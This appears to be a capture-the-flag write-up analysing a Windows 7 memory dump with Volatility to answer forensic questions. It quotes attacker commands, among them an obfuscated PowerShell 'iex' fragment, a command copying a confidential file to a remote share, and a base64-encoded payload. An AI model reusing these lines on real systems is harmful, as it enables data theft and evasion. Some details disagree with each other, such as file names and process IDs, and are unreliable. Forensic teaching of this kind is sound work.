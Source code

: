 # Recollection

## Challenge Information
- **Challenge Name**: Recollection
- **Category**: Memory Analysis
- **Difficulty Level**: Easy

## Initial Setup
First of all, the tool we need in this task is Volatility. Install both Volatility2 as well as Volatility3, because there are some tasks in which we have to run some commands that are not available in Volatility2. The command for Volatility2 will start with `vol.py` and that of Volatility3 will start with `vol`.

## Investigation Steps

1. Since we had to figure out the operating system's information, we will use the command of imageinfo:
```bash
vol.py -f recollection.bin imageinfo
```
This will return some information inwhich we can see a header of `Suggested Profile(s)` where the very first field represents our system profile `Win7SP1x64`. Hence, the answer is `Windows 7`.

2. Under the same information, we can clearly see the time of creation of this dump `2022-12-19 16:07:30`.

3. Since we want to get the copied data and we know that the copied data is in clipboard, so the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 clipboard
```
This gave us some information in which we can see the only present data `(gv '*MDR*').naMe[3,11,2]-joIN''`.

4. Now our some upcoming tasks are related to the commands that the attacker executed. So, we will run the command that will show us consoles:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 consoles
```
This will return some data, which I have also saved in the data.txt file. Here when we see the shell of task-3 executed, there is a word `iex` in the very next line of that shell. This refers to the cmdlet name `Invoke-Expression`.

5. Since our concern is with exfiltration of a file, so most probably this would be some sensitive file. Analyzing all the commands that were there, we can see a command being executed on the `Credentials.txt`, which is the actual required command:
```bash
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

6. If we analyze the results of this command, we can clearly see that there were errors when the attacker tried to execute it. So the answer is `NO`.

7. If we see the next command in which the user is trying to run a powershell command, there is some base64 encoded string `ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi`. If we decode it, we will see the what actually the attacker was trying to run:
```bash
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
```
So the path of the file is very clear in this command `"C:\Users\Public\Office\readme.txt"`

8. Since we get to know about the host machine, so lets just take some information of the machine by running the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 hivelist
```
This will give us the addresses of the machines. The address of `\REGISTRY\MACHINE\SYSTEM` can be clearly seen as `0xfffff8a000024010`. Now using this offset, run the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Services\Tcpip\Parameters"
```
This will give detailed information of this machine, where we can see the username of the machine `user-PC`.

9. For the number of users, it is there as `QualifyingDestinationThreshold` which is `3`.

10. Since our concern is with the passwords.txt file, so lets just run the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep "passwords.txt"
```
This will give us the information of the files of which we have given the grep filter. In our case, there is only one file `\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt`.

11. Since the executable is named with its hash, and there is only one such file in the data that we also saved in data.txt, `b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1`.

12. In this task, we have to find the IMPHASH of the above malicious file. For this, we will be using a python script dump.py. But for this, we need the file itself. So we will first dump this file. Now to dump any file from the bin, we need its offset and the exact size of the file. The size of the file is given in data.txt. To find the offset, we will run `filescan` on this file using the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 filescan | grep b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1.exe
```
Now, we can dump the file using the dumpfiles:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 dumpfiles -Q 0x000000011fa45c20 -D ./
```
This will save the dump of the file in the current directory working directory. Now use the following code to get the IMPHASH `d3b592cd9481e4f053b5362e22d61595`:

```python
import pefile
pe = pefile.PE('./file.None.0xfffffa8003b62990.dat') # this is the dump of the file that was saved in my case
print(pe.get_imphash())
```

13. Use exiftool to get the detailed information of the file:
```bash
exiftool file.None.0xfffffa8003b62990.dat
```
This gave me each and every information of the file, including the required creation time `2022-06-22 11:49:04`.

14. Here, we had to figure out thr ip-address. So lets just run the command of netscan:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 netscan
```
This gave a long data in which we could observe the ip address `192.168.0.104`.

15. Now, lets list down all the processes:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 pslist
```
This will help to get the data of all the processes and their parents. Here we can observe the parent child relationship of the `cmd.exe` as a parent of `explorer.exe`.

16. To get the email, I tried so many different commands with different filters, trying to make the filter more precise with the required format of the email. At last:
```bash
strings recollection.bin | grep -E -o "\b[A-Za-z0-9._%+-]+-[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,3}m\b"
```
This worked giving 7 results, in which one was `a65bded5-284b-407b-86df-db3050f7f451mafia_code1337@gmail.com` but the attacker had added some extra contents to maybe bypass any checks. The exact email was `mafia_code1337@gmail.com`.

17. Since we know that the microsoft edge process is running on the process id 2032 (form task-15), we can use the command:
```bash
vol.py -f recollection.bin --profile=Win7SP1x64 memdump -p 2380 -D ./
```
To dump the data of this process. Now:
```bash
strings 2380.dmp | grep -i "siem"
```
This will help us give the string that include siem. This have a little big data, in which there was a file `wazuh-agent-4.3.10-1.msi`. Hence, the SIEM solution id `Wazuh`.

18. I don't have any solid reason that why do I think this was the file, but since there was mentioned that there is a typo and the name is mimicking, I could see one suspecious file in the data.txt where all the exe files are listed with the time of their creation `csrsss.exe`.
